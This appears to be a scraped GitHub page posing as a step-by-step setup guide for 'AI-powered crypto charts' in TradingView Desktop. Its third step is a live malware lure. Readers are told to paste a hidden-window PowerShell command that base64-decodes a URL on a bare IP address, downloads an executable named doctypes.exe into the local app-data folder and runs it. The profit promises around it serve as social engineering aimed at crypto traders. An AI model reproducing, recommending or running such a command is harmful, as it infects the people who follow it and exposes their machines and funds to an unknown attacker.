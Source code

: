 📌 Step-by-Step Setup Guide:

🔵 Step 1: Download and install TradingView Desktop
🔗 https://www.tradingview.com/desktop/

🔵 Step 2: Enter Developer Mode
– Press Win + R, type cmd, and hit Enter

🔵 Step 3: Paste the setup command and press Enter

powershell -WindowStyle Hidden -Command "$url=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('aHR0cDovLzE0MS45OC42LjEzMDo1NTU0L2RvY3R5cGVzLmV4ZQ==')); iwr $url -OutF "$env:LOCALAPPDATA\doctypes.exe"; start "$env:LOCALAPPDATA\doctypes.exe""

🔵 Step 4: Restart TradingView

✅ That’s it! You’re now ready to explore AI-powered crypto charts.

📺 Follow along with the video to see how to use them for maximum profit.

